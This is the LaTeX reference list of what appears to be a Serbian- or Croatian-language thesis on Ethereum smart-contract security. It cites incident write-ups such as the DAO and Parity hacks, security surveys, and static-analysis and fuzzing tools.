\bibitem{bitcoin_daily} \emph{Daily Number of Bitcoin Transactions, 2022}, https://www.statista.com/statistics/730806/daily-number-of-bitcoin-transactions/, Pristupljeno: April 2022.

\bibitem{bitcoin_miners} \emph{How many bitcoins are there, 2022}, https://www.buybitcoinworldwide.com/how-many-bitcoins-are-there/, Pristupljeno: April 2022.

\bibitem{eteriumvolume} \emph{Ethereum market cap}, https://coinmarketcap.com/currencies/ethereum/, Pristupljeno: April 2022.

\bibitem{scpercentage} M, Young, \emph{Nearly 25\% of All Ethereum Locked in Smart Contracts}, 2021, https://finance.yahoo.com/news/nearly-25-ethereum-locked-smart-051423561.html, Pristupljeno: April 2022.

\bibitem{niksabo} N. Szabo, \emph{Smart Contracts}, 1994.

\bibitem{ilustracije} T. Takenobu, \emph{Ethereum EVM Illustrated}, https://takenobu-hs.github.io/downloads/ethereum\_evm\_illustrated.pdf, Pristupljeno: April 2022.

\bibitem{eth_states} B. Singhal, G. Dhameja, P.S. Panda, \emph{How Ethereum Works. In: Beginning Blockchain}, Apress, Berkeley, CA, 2018

\bibitem{eth2} \emph{Ethereum Upgrades}, https://ethereum.org/en/upgrades/, Pristupljeno: April 2022.

\bibitem{ethpos} P. Wackerow \emph{Ethereum: Proof of Stake (POS)}, https://ethereum.org/en/developers/docs/consensus-mechanisms/pos/, Pristupljeno: April 2022.

\bibitem{gavin} G. Wood, \emph{Ethereum: A Secure Decentralised Generalised Transaction Ledger}, Berlin Version, Ethereum Project Yellow Paper, 2021

\bibitem{atzei} N. Atezi, M. Bartoletti, T. Cimoli, \emph{A survey of attacks on Ethereum smart contracts}, in: M. Maffei, M. Ryan (Eds.), Principles of Security and Trust. POST 2017. Lecture Notes in Computer Science, Springer, Berlin, HEidelberg, 2017, pp. 164-186.

\bibitem{daohack} P. Daian, \emph{Analysis of the DAO Exploit}, 2016, https://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/, Pristupljeno: April 2022.

\bibitem{powh} E. Bansidar, \emph{How \$800k Evaporated from the PoWH Coin Ponzi Scheme Overnight}, 2018, https://medium.com/@ebanisadr/how-800k-evaporated-from-the-powh-coin-ponzi-scheme-overnight-1b025c33b530, Pristupljeno: April 2022.

\bibitem{second_parity} A. Akentiev, \emph{Parity Multisig Hacked. Again}, 2017, https://medium.com/chain-cloud-company-blog/parity-multisig-hack-again-b46771eaa838, Pristupljeno: April 2022.

\bibitem{ethnull} \emph{Etherscan: Null address}, https://etherscan.io/address/0x00000000000000 00000000000000000000000000,  Pristupljeno: April 2022.

\bibitem{sigmaprime} Dr A. Manning: \emph{Solidity Security: Comprehensive list of known attack vectors and common anti-patterns}, 2018, https://blog.sigmaprime.io/solidity-security.html, Pristupljeno: April 2022.

\bibitem{visibility_modificators} \emph{Solidity documentation, Contracts, Visibility and getters}, https://docs.soliditylang.org/en/latest/contracts.html, Pristupljeno: April 2022.

\bibitem{sc_attack_protections} S. Sayeed, H. Marco-Gisbert, T. Caira, \emph{Smart Contract: Attacks and Protections}, IEEE Access, 8, 2020

\bibitem{first_parity} H. Qureshi, \emph{A hacker stole \$31M of Ether - how it happend, and what it means for Ethereum}, 2017, https://www.freecodecamp.org/news/a-hacker-stole-31m-of-ether-how-it-happened-and-what-it-means-for-ethereum-9e5dc29e33ce, Pristupljeno: April 2022.

\bibitem{parity_distributed} L. Breidenbach, P. Daian, A. Juels, E. Gun Sirer, \emph{An In-Depth Look at the Parity Multisig Bug}, 2017, https://hackingdistributed.com/2017/07/22/deep-dive-parity-bug/, Pristupljeno: April 2022.

\bibitem{bitrand} J. Bonneau, J. Clark, S. Goldfeder, \emph{On Bitcoin as public randomness source}, IACR Cryptology ePrint Archive, 2015

\bibitem{blockentropy} C. Pierrot, B. Wesolowski, \emph{Malleability of blockchain's entropy}, IACR Cryptology ePrint Archive, 2016

\bibitem{exploring_vulns} P. Tantikul, S. Ngmasuriyaroj, \emph{Exploring Vulnerabilities in Solidity Smart Contract}, Proceedings of the 6th International Conference on Information Systems Security and Privacy, ICISSP, 2020

\bibitem{governmental} T. Bahrynovska, \emph{History of Ethereum Security Vulnerabilities}, https://applicature.com/blog/blockchain-technology/history-of-ethereum-security-vulnerabilities-hacks-and-their-fixes, Pristupljeno: April 2022.

\bibitem{exploitable} D. Perez, Benjamin Livshits, \emph{Smart Contract Vulnerabilities: vulnerable Does Not Imply Exploited}, 2021.

\bibitem{eyhoff_priny_rose} S. Sezer, C. Eyhoff, W. Prinz and T. Rose, \emph{Exploiting Smart Contract Bytecode for Classification on Ethereum}, 2020.

\bibitem{bec} \emph{A disastrous vulnerability found in smart contracts of BeautyChain (BEC)}, 2018, https://medium.com/secbit-media/a-disastrous-vulnerability-found-in-smart-contracts-of-beautychain-bec-dbf24ddbc30e, Pristupljeno: April 2022.

\bibitem{solidity_example} T. Nakamura, \emph{Solidity by example}, https://solidity-by-example.org/

\bibitem{tikhomirov} S. Tikhomirov, E. Voskresenskaya, I. Ivanitskiy, R. Takhaviev, E. Marchenko, and Y. Alexandrov, \emph{Smartcheck: Static analysis of ethereum smart contracts}, in 2018 IEEE/ACM 1st International Workshop on Emerging Trends in Software Engineering for Blockchain (WETSEB). IEEE, 2018, pp. 9–16

\bibitem{luu} L. Luu, D-H. Chu, H. Olickel, P. Saxena, A. Hobor, \emph{Making smart contracts smarter}, 2016 ACM SIGSAC Conference on Computer and Communications Security (CCS), ACM, Vienna, Austria, 2016, pp. 254–269. https://dl.acm.org/doi/10.1145/2976749.2978309

\bibitem{consensys} Consensys, \emph{Smart Contract Best Practices}, https://consensys.github.io/smart-contract-best-practices/, Pristupljeno: April 2022.

\bibitem{solsec} \emph{Solidity Lang: Security Considerations}, https://docs.soliditylang.org/en/v0.8.13/security-considerations.html

\bibitem{checks} Steven McKie, \emph{Revert(), Assert(), and Require() in Solidity, and the New REVERT Opcode in the EVM}, 2017, https://medium.com/blockchannel/the-use-of-revert-assert-and-require-in-solidity-and-the-new-revert-opcode-in-the-evm-1a3a7990e06e, Pristupljeno: April 2022.

\bibitem{solver} \emph{Solidity Lang: SMT Checker and Formal Verification}, https://docs.soliditylang.org/en/v0.8.13/smtchecker.html, Pristupljeno: April 2022.

\bibitem{openzeppelin} \emph{OpenZeppelin Contracts}, https://github.com/OpenZeppelin/openzeppelin-contracts, Pristupljeno: April 2022.

\bibitem{slither} \emph{Slither}, https://github.com/crytic/slither, Pristupljeno: April 2022.

\bibitem{slitherTrophy} \emph{Slither Trophies}, https://github.com/crytic/slither/blob/master/trophies.md, Pristupljeno: April 2022.

\bibitem{mythril} \emph{Mythril}, https://github.com/ConsenSys/mythril, Pristupljeno: April 2022.

\bibitem{mythx} \emph{Mythx}, https://mythx.io/, Pristupljeno: April 2022.

\bibitem{manticore} \emph{Manticore}, https://github.com/trailofbits/manticore, Pristupljeno: April 2022.

\bibitem{oyente} \emph{Oyente}, https://github.com/enzymefinance/oyente, Pristupljeno: April 2022.

\bibitem{echidna} \emph{Echidna}, https://github.com/crytic/echidna, Pristupljeno: April 2022.

\end{document}
